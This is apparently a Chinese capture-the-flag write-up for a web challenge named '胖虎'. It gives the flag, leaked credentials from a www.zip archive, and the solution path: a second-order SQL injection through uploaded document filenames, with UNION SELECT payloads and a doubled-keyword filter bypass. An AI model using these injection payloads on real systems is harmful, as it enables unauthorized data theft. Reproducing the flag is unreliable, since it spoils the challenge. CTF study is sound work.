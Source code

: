 # 题目：胖虎

### 题目描述：胖虎，冈田武

### 题目难度： 🌟🌟🌟🌟🌟

### 维护：le31ei

### KEY: `flag{327a6c4304ad5938eaf0efb6cc3e53dc}`

### 配置信息： 
1. 开放端口： `8080`

### 解题过程：

1. 根目录下有个压缩包：`www.zip`，里面能收集到信息：`panghu`， `gangtianwu666`。
2. 扫描目录，后台登录口为：`admin_login.php`
3. 在提交作业解密的上传work文档存在二次注入。
4. 最后的payload为：

>`提交文件名：web' and 1=2 union select flag from flag where '.doc'='.doc`

>`查询：web' and 1=2 ununionion seselectlect flag from flag where '.doc'='.doc`